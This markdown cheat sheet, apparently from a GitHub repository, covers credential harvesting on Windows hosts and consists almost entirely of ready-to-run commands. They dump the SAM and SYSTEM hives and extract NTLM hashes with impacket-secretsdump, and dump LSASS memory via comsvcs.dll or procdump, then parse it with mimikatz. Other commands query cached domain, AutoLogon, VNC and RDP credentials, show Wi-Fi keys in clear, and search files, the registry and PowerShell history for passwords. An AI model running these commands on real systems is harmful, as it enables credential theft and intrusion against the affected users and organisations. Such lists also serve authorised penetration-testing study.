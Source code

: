 # Local Account Passwords

#### Enumerating Local User Accounts
- List all local user accounts:
	```cmd
	net user
	```

#### Cached Domain Credentials
Windows caches domain credentials locally, which can be queried:

- Query Cached Domain Credentials:
	```cmd
	reg query "HKLM\SECURITY\Cache"
	```

# Credential Files and Cleartext Passwords

#### Searching for Sensitive Information
- Search for files containing "password":
	```cmd
	dir C:\ /S /P | findstr "password"
	```
	- Recursively searches for files with "password" in their name or content.

#### Unattended Windows Installation Files
- Check for unattended Windows installation files that may contain passwords:
	```cmd
	dir C:\ /S /P | findstr /i unattend.xml
	```
	Files of interest:
	- `C:\Unattend.xml`
	- `C:\Windows\Panther\Unattend.xml`

#### Searching the Registry for Passwords
- Search for "password" in the registry:
	```cmd
	reg query HKCU /f password /t REG_SZ /s
	```
	- This searches for any registry entries with "password" under `HKEY_CURRENT_USER`.

# Saved Credentials and Cached Information

#### Windows Credential Manager
- List saved credentials:
	```cmd
	cmdkey /list
	```

#### Retrieve PowerShell History
- PowerShell stores command history in a file that may contain sensitive information:
	```cmd
	type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
	```

#### Windows AutoLogon Credentials
- Query AutoLogon credentials:
	```cmd
	reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
	```

# SAM Database and NTLM Hashes

#### Extracting NTLM Hashes from SAM Database
1. Save the SAM and SYSTEM hives:
	```cmd
	reg save HKLM\SAM C:\temp\SAM
	reg save HKLM\SYSTEM C:\temp\SYSTEM
	```

2. Use external tools like `impacket-secretsdump` to dump hashes:
	```bash
	impacket-secretsdump -sam C:\temp\SAM -system C:\temp\SYSTEM LOCAL
	```

# LSASS Dump for Credential Extraction

#### Dump LSASS Process
- Dump LSASS process using `comsvcs.dll`:
	```cmd
	rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\temp\lsass.dmp full
	```
- Alternatively, use `procdump`:
	```cmd
	procdump -accepteula -ma lsass.exe C:\temp\lsass.dmp
	```

#### Extract Credentials from LSASS Dump with Mimikatz
- Extract credentials using `mimikatz`:
	```cmd
	mimikatz "sekurlsa::minidump C:\temp\lsass.dmp" "sekurlsa::logonPasswords" exit
	```

# Extracting Wi-Fi Passwords

#### List Saved Wi-Fi Profiles
- List all saved Wi-Fi profiles:
	```cmd
	netsh wlan show profiles
	```

#### Dump Wi-Fi Password for Specific Profile
- View the password for a specific profile:
	```cmd
	netsh wlan show profile name="<Wi-Fi Profile Name>" key=clear
	```

# Remote Desktop Credentials

#### List Saved RDP Credentials
- Check saved RDP connections:
	```cmd
	reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers"
	```

- Query default RDP credentials:
	```cmd
	reg query "HKCU\Software\Microsoft\Terminal Server Client\Default"
	```

# Web Browsers Stored Credentials

#### Internet Explorer and Edge Credentials
- Extract saved forms from Internet Explorer:
	```cmd
	reg query "HKCU\Software\Microsoft\Internet Explorer\IntelliForms\Storage2"
	```

#### Chrome and Firefox Credentials
- Chrome stores credentials in SQLite databases in the profile directory:
	```cmd
	dir "%localappdata%\Google\Chrome\User Data\Default\Login Data"
	```
- Firefox stores credentials in the user profile:
	```cmd
	dir "%appdata%\Mozilla\Firefox\Profiles"
	```

# Miscellaneous Credential Locations

#### IIS (Internet Information Services) Configuration
- IIS configuration files may contain credentials:
	```cmd
	type C:\inetpub\wwwroot\web.config | findstr connectionString
	```

#### VNC (Virtual Network Computing) Credentials
- Query VNC passwords from the registry:
	```cmd
	reg query "HKCU\Software\RealVNC\WinVNC4"
	```